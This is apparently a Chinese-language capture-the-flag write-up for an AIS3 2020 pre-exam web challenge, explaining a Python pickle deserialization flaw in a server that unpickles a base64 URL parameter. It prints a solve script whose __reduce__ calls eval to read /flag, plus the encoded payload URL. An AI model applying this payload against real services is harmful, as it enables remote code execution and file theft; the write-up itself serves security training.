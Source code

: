 簡單瞭解這份code:
- line 10 表示我們可以透過後綴`/?data=`接一些字串
- line 14 表示字串必須為base64格式
- line 15 pickle ... ? 原來是肚子餓的部分（X）

![ ](https://github.com/yctseng1227/AIS3_2020_pre-exam/blob/master/web/web-sn01.png?raw=true)

- line 17 永遠不可能成立的條件


用Google搜尋 "pickle ctf" 可以找到不少資料，可以參考這篇 [pickle反序列化初探](https://xz.aliyun.com/t/7436)。

簡單講`pickle`是python用來**序列化**及**反序列化**的 Python library。
當我們透過網址傳送序列化字串後，Server端會執行反序列化並執行物件中的`__reduce__`，因此我們這次將`__reduce__`內容設計成**system read /flag file**，Server回傳的就會是flag的內容，另外要注意的是回傳格式(callable, `tuple`)，後者的參數會交給前者執行。

{% codeblock solve.py lang:python %}
import pickle
import base64

class test(object):
    def __reduce__(self):
        return( eval, ("open('/flag').read()",) )

print(base64.b64encode(pickle.dumps(test())))
{% endcodeblock %}

剩下就是把產生出來的base64 code丟到網址後綴拿flag ~ 
`/?data=Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFMib3BlbignL2ZsYWcnKS5yZWFkKCkiCnAxCnRwMgpScDMKLg==`



## Scoreboard
![ ](https://github.com/yctseng1227/AIS3_2020_pre-exam/blob/master/pre-exam.ais3.org_scoreboard.png?raw=true)